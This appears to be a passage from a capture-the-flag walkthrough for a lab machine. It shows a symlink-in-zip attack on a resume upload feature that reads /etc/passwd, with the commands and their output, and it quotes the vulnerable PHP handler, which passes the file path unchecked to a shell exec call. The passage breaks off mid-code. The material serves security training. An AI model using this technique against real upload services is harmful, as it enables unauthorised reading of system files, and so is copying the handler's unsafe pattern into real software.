 ## Arbitrary file read

Setup a file.pdf that is a symlink to /etc/passwd
```bash
ln -s /etc/passwd file.pdf
ls -la file.pdf
lrwxrwxrwx 1 blnkn blnkn 11 Oct 29 17:06 file.pdf -> /etc/passwd
```

Zip it, with the symlink as such instead of compressing and storing the file referred to by the link
```bash
zip --symlink -r file file.pdf
ls -la file.zip
-rw-r--r-- 1 blnkn blnkn 839 Oct 29 17:07 file.zip
```

Upload and curl the result
```bash
curl -s http://10.10.11.229/uploads/642147a874e4dbb4959086f0e6a9188d/file.pdf |grep sh$
root:x:0:0:root:/root:/bin/bash
rektsu:x:1001:1001::/home/rektsu:/bin/bash
```

## Automating the process

This is how the upload feature works
```php
<?php
if(isset($_POST['submit'])) {
  // Get the uploaded zip file
  $zipFile = $_FILES['zipFile']['tmp_name'];
  if ($_FILES["zipFile"]["size"] > 300000) {
    echo "<p>File size must be less than 300,000 bytes.</p>";
  } else {
    // Create an md5 hash of the zip file                                                                                                                                                             $fileHash = md5_file($zipFile);
    // Create a new directory for the extracted files
    $uploadDir = "uploads/$fileHash/";
    $tmpDir = sys_get_temp_dir();
    // Extract the files from the zip
    $zip = new ZipArchive;
    if ($zip->open($zipFile) === true) {
      if ($zip->count() > 1) {
      echo '<p>Please include a single PDF file in the archive.<p>';
      } else {
      // Get the name of the compressed file
      $fileName = $zip->getNameIndex(0);
      if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
        $uploadPath = $tmpDir.'/'.$uploadDir;
        echo exec('7z e '.$zipFile. ' -o' .$uploadPath. '>/dev/null');
        if (file_exists($uploadPath.$fileName)) {
          mkdir($uploadDir);
          rename($uploadPath.$fileName, $uploadDir.$fileName);
        }
        echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="'.$uploadDir.$fileName.'">'.$uploadDir.$fileName.'</a>'.'</p>';
      } else {
        echo "<p>The unzipped file must have  a .pdf extension.</p>";
      }
     }
    } else {
          echo "Error uploading file.";
```